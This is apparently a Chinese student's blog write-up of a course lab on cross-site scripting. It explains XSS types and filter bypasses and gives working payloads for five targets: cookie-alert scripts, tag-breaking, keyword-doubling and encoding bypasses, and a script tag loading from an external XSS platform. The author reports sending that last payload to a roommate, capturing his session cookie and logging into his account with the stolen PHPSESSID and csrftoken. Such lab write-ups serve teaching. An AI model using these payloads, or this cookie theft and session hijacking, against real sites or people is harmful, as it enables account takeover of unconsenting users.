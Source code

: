 ```yaml
---
title: 网络破防实践先导实验四————XSS攻击
tags: 网络破防实践先导
cover: http://cdn.lmark.cc/img/300137_origin_20220531_195151.jpg
top_img: http://cdn.lmark.cc/img/300150_origin_20220531_195603.jpg
abbrlink: af59cd8a
date: 2022-06-24 17:54:37
---
```


## 前情回顾

终于一路跌跌撞撞，终于来到了网络破防这门课最后一个实验，这次这个实验的可以说四个实验之中最简单的，我只花了不到一个小时就搞定了。



## XSS介绍

首先，什么是XSS攻击呢？

> XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java、 VBScript、ActiveX、 Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。                                       ——摘自百度百科

我的理解就是，利用一些输入框，然后输入一些能产生特效果的语句，让网页执行你需要的代码，以达到攻击的目的。

网页一般用的html，如果输入的内容没有进行转义，在输出的时候有可能会变成网页html的一部分，像这种

#### **反射型XSS**

![](http://cdn.lmark.cc/img/image-20220624182159558.png)

![](http://cdn.lmark.cc/img/image-20220624182224333.png)

![](http://cdn.lmark.cc/img/image-20220624182239812.png)

![](http://cdn.lmark.cc/img/image-20220624182254833.png)

![](http://cdn.lmark.cc/img/image-20220624182314134.png)



除此之外，还有DOM Based XSS

#### DOM Based XSS

![](http://cdn.lmark.cc/img/image-20220624182746968.png)

#### XSS的过滤和绕过

XSS攻击是一种很常见的攻击方式，所以很早就有了各种各样的防护方式。但是道高一尺，魔高一丈，XSS攻击也有许多绕过方式，如下：

- 闭合引号、标签
- 关键字过滤
- 编码绕过
- 宽字节绕过
- 其他技巧绕过 



关于每种技巧：

##### 闭合引号、标签

![](http://cdn.lmark.cc/img/image-20220624183639593.png)

##### 关键字过滤

![](http://cdn.lmark.cc/img/image-20220624183723311.png)

##### 编码绕过

![](http://cdn.lmark.cc/img/image-20220624183805936.png)

![](http://cdn.lmark.cc/img/image-20220624183910175.png)

![](http://cdn.lmark.cc/img/image-20220624184134170.png)

##### 宽字节绕过

![](http://cdn.lmark.cc/img/image-20220624184312204.png)

![](http://cdn.lmark.cc/img/image-20220624184359039.png)

##### 其他绕过

![](http://cdn.lmark.cc/img/image-20220624184445517.png)

![](http://cdn.lmark.cc/img/image-20220624184532523.png)

## 实验过程

#### Target 1

Target1比较容易，直接输出即可，

```javascript
<script>alert(document.cookie);</script>
```

 

#### Target 2

Target2需要先把第一个a标签给结束了，才可以写自己代码，先随便输点东西看看输出的格式，

![](http://cdn.lmark.cc/img/clip_image002.jpg)

可以看到，输出的内容是在一个a标签的herf属性中的，根据格式判断，可以构造一下payload：

```javascript
'><img src=# onerror=alert(document.cookie) /><‘
```

![](http://cdn.lmark.cc/img/clip_image004.jpg)

虽然有点不理解为什么用单引号来结束前面的双引号。

 

#### Target 3

Target3需要用到关键词过滤，script这关键词被过滤了，所以需要构造一下一个字符串来绕过检测：

```javascript
<scriscriptpt>alert(document.cookie);</scriscriptpt>
```



#### Target 4

Target4中，一些特殊字符会被转义，所以得用不同的编码来绕过：

```javascript
<svg><script>alert&#40;document.cookie&#41;</script><svg>
```



#### Target 5

Target5中，提示给出的是需要利用宽字节来绕过，但是，我使用Target2的方法也能输出cookie，、

![](http://cdn.lmark.cc/img/clip_image006.jpg)

然后，盗取别人的cookie，首先，打开xss平台，注册一个账号，然后开始一个项目，然后，复制攻击用的代码：

```javascript
<sCRiPt sRC=//xss.pt/aATU></sCrIpT>
```



然后发送给我亲爱滴室友，我的室友在读到信息后，我就获取到了他的cookie：

 ![](http://cdn.lmark.cc/img/clip_image008.jpg)

然后去浏览器里，检查网页，然后在应用程序中，找到cookie，进行一个修改（修改PHPSESSID和csrftoken即可）：

![](http://cdn.lmark.cc/img/clip_image010.jpg)

![](http://cdn.lmark.cc/img/clip_image012.jpg)

然后就可以登录这个账号了。



## 实验心得 && 结课心得

这是最后一个实验了，网络破防到现在就全部结束了！！！这门课一开始真的挺折磨人的，各种劝退，好多人都在前两个实验就润了，留下了的人都是狼人了，和其他三个先导课（人工智能实验先导，大数据实验先导，软件工程实验先导）比起来，难度可以说挺大的，可不是跟着老师敲敲代码就能过的，得认真地学一会才能做的出来。

这门课最后的成绩可以说挺惨目忍睹的，剩了三十多个人，十几个一百分，十几个不及格，十几个中间。挂科率达到了惊人的**33.33%**，应该是四门先导课里人最少，而且挂科率还最高的课了，不得不说曲老师还是这么狠呀。

至于我嘛，差点就翻车了，四个实验少交了一个，补上之后勉强有一百了。

这个是上课的小小纪念品，不过这个寓意我是搞不懂，脑子里面有水嘛？

![](https://cdn.lmark.cc/img/316698_origin_IMG_20220624_190528.jpg)
